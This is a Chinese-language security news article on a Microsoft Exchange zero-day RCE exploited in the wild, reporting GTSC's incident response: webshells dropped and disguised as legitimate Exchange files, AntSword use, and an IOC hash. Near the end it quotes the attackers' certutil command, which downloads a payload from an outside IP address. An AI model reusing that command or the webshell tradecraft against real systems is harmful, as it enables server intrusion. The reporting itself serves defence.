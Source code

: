 #  新的攻击活动利用了MICROSOFT EXCHANGE服务器上新的0 day RCE漏洞   
luochicun  嘶吼专业版   2022-10-08 12:00  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/wpkib3J60o297rwgIksvLibPOwR24tqI8dGRUah80YoBLjTBJgws2n0ibdvfvv3CCm0MIOHTAgKicmOB4UHUJ1hH5g/640?wx_fmt=gif "")  
  
8月初，在执行安全监控和事件响应服务时，GTSC SOC团队发现一个关键基础架构受到攻击，经过分析这是专门针对Microsoft Exchange应用程序的。在调查期间，GTSC Blue Team专家确定，攻击者利用了一个未公开的Exchange安全0 day 漏洞，因此立即制定了临时缓解计划。与此同时，安全专家开始研究和调试Exchange反编译代码，以查找漏洞并利用代码。经分析，该漏洞非常严重，使得攻击者能够在受攻击的系统上执行RCE。GTSC立即将该漏洞提交给Zero Day Initiative (ZDI)，以便与微软合作，尽快准备修补程序。ZDI验证并确认了2个漏洞，CVSS评分分别为8.8和6.3。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29VibGB9HkZ06NPHDtjzowG7EG1yjeEGmX1DsVFVLyAsaRnKCvibhicibeZ0cehoaPtARWjKiag9QYM1zw/640?wx_fmt=png "")  
  
不过截至目前，修复程序还未发布，GTSC已经发现其他客户也遇到了类似攻击。经过仔细测试，研究人员确认这些系统正受到此0 day零日漏洞的攻击。  
# 漏洞信息  
  
在为客户提供SOC服务时，GTSC Blueteam在IIS日志中检测到与ProxyShell漏洞格式相同的攻击请求,如下所示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29VibGB9HkZ06NPHDtjzowG7RGoK2x5icM2XEglNQKlT7jsm4GZFL6aGfuzEw5gYDWVaP8jbjiaFcl4g/640?wx_fmt=png "")  
  
研究人员还检查了其他日志，发现攻击者可以在受攻击的系统上执行命令。这些Exchange服务器的版本号表明已安装最新更新，因此使用Proxyshell漏洞进行攻击的行为让研究人员可以确认这是一个新的0 day RCE漏洞。这些信息被发送给了安全分析师后，他们对为什么漏洞利用请求与ProxyShell bug类似？RCE是如何实施的？等问题进行了研究。  
  
经过分析，研究人员成功地找到了如何使用上述路径访问Exchange后端中的组件并执行RCE。然而，处于安全考虑，目前我们还不想发布该漏洞的技术细节。  
# 利用后（Post-exploit）活动  
  
在追踪到有关攻击示例后，研究人员开始收集信息并在受害者的系统中建立一个立足点。另外，攻击者还使用各种技术在受影响的系统上创建后门，并对系统中的其他服务器执行横向移动。  
# Webshell  
  
我们检测到Webshell被丢弃到Exchange服务器，其中大部分是模糊的。通过用户代理，我们检测到攻击者使用了Antsword，这是一个基于中文的开源跨平台网站管理工具，支持webshell管理。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o29VibGB9HkZ06NPHDtjzowG74EK2h2K4tBEACcapqL5XLPoq1DOLmhDyZFHcD4RYPOHofG3XTFbeDw/640?wx_fmt=png "")  
  
另一个值得注意的特点是，攻击者还将文件RedirSuiteServiceProxy.aspx 的内容更改为webshell内容。RedirSuiteServiceProxy.aspx 是Exchange服务器中可用的合法文件名。  
  
在另一个客户的事件响应过程中，GTSC注意到攻击组织使用了另一个webshell模板。  
  
Filename: errorEE.aspxSHA256: be07bd9310d7a487ca2f49bcdaafb9513c0c8f99921fdf79a05eaba25b52d257Ref: https://github.com/antonioCoco/SharPyShell  
# 命令执行  
  
除了收集系统信息外，攻击者还通过certutil下载文件并检查连接，certutil是Windows环境中可用的合法工具。  
  
“cmd” /c cd /d "c:\\PerfLogs"&certutil.exe -urlcache -split -f http://206.188.196.77:8080/themes.aspx c:\perflogs\t&echo [S]&cd&echo [E]"cmd" /c cd /d "c:\\PerfLogs"&certutil.exe -urlcache -split -f https://httpbin.org/get c:\test&echo [S]&cd&echo [E]  
  